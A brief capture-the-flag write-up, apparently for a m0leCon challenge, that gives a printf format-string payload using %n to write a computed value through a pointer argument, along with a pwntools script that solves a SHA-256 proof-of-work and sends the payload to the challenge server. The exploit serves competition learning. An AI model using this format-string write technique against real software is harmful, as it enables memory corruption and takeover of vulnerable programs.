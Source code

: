 So the solution payload is the following:

```
%*11$c%*10$c%8$n
```

It tells `printf` to:
1. print your first argument as char padded to `rand2` long with spaces
2. print your second argument as char padded to `rand1` long with spaces
3. write the number of printed characters to the address held in your 8th variable.

```python
from pwn import *
from itertools import product
from string import ascii_letters
import hashlib

p = None

def genSHA(string_start, sha_end):
    for item in product(ascii_letters, repeat=6):
        solution = string_start+''.join(item).encode('ascii')
        test = hashlib.sha256(solution).hexdigest()
        if test.endswith(sha_end.decode('ascii')):
            return solution

def solvePoW():
    p.recvuntil("Give me a string starting with ")
    string_start = p.recvuntil(" ")[:-1]
    p.recvuntil("ends in ")
    sha_end = p.recvuntil(".")[:-1]

    print(f"[+] String start: {string_start}, SHA256 end: {sha_end}")
    sha_solution = genSHA(string_start, sha_end)
    print(sha_solution)

    p.sendline(sha_solution)

def run():
    global p
    p = remote("challs.m0lecon.it","1907")

    solvePoW()

    p.recvuntil("summed to ")
    sum = int(p.recvuntil("!")[:-1])
    for i in range(16):
        p.sendlineafter("\n", "%*11$c%*10$c%8$n")

    p.interactive()


if __name__ == "__main__":
    run()
```
